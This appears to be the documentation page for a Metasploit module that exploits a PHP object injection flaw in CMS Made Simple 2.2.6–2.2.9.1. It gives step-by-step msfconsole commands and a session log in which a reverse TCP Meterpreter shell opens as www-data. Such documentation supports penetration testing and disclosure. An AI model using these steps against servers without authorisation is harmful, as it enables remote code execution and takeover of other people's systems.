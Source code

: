 ## Description

This module exploits an object injection vulnerability on files `action.admin_bulk_template` in DesignManager module (that is installed by default from CMS Made Simple). With an unprivileged user with Designer permission, it is possible to reach an `unserialize` function with a crafted value in the `m1_allparms` parameter resulting in execution of arbitrary PHP code.

Tested on CMS Made Simple 2.2.6, 2.2.7, 2.2.8, 2.2.9 and 2.2.9.1.

## Vulnerable Application

Affecting CMS Made Simple, version 2.2.6, 2.2.7, 2.2.8, 2.2.9, 2.2.9.1

## Verification Steps

1. Setting up a working installation of CMS Made Simple (CMSMS)
2. [OPTIONALLY] setting up a new user, assign it to a group and set the *Designer* permissions on group
3. Start `msfconsole`
4. `use exploit/multi/http/cmsms_object_injection_rce`
5. `set RHOST <IP>`
6. `set USERNAME <USERNAME>`
7. `set PASSWORD <PASSWORD>`
8. `check`
9. You should see `The target appears to be vulnerable.`
10. `exploit`
11. You should get a meterpreter session!

## Options

* **TARGETURI**: Path to CMS Made Simple (CMSMS) App installation (“/” is the default)
* **USERNAME**: Username to authenticate with
* **PASSWORD**: Password to authenticate with

## Scenario

### Tested on CMS Made Simple (CMSMS) 2.2.8

```
msf5 > use exploit/multi/http/cmsms_object_injection_rce
msf5 exploit(multi/http/cmsms_object_injection_rce) > set rhosts target.com
rhosts => target.com
msf5 exploit(multi/http/cmsms_object_injection_rce) > check
[*] 192.168.1.64:80 - The target appears to be vulnerable.
msf5 exploit(multi/http/cmsms_object_injection_rce) > set username daniele
username => daniele
msf5 exploit(multi/http/cmsms_object_injection_rce) > set password qwerty
password => qwerty
msf5 exploit(multi/http/cmsms_object_injection_rce) > set targeturi /cmsms/
targeturi => /cmsms/
msf5 exploit(multi/http/cmsms_object_injection_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.64:4444
[*] Sending stage (38247 bytes) to 192.168.1.64
[*] Meterpreter session 1 opened (192.168.1.64:4444 -> 192.168.1.64:41308) at 2019-11-01 11:15:57 +0100
[+] Deleted RsjeISeAu.php

meterpreter > getuid
Server username: www-data (33)
meterpreter > quit
[*] Shutting down Meterpreter...

[*] 192.168.1.64 - Meterpreter session 1 closed.  Reason: User exit
msf5 exploit(multi/http/cmsms_object_injection_rce) > 
```
